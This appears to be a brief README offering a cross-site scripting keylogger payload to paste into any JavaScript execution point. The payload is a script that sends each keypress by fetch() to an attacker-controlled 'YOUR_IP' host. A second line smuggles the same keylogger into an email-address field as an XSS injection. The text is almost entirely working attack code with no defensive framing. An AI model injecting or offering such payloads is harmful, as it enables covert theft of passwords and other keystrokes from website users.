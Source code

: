 # legit paste this into any js execution point

`<script>
document.onkeypress = function(e) {
    fetch('http://YOUR_IP:8000/keys?key=' + encodeURIComponent(e.key));
    alert('You pressed: ' + e.key);
}
</script>
`

# Xss example

`"test@domain.com<script>alert('XSSworks');document.onkeypress=function(e){fetch('http://localhost:8000/keys?key='+encodeURIComponent(e.key));alert('Key:'+e.key);}</script>"`

# build using

python3 script.py
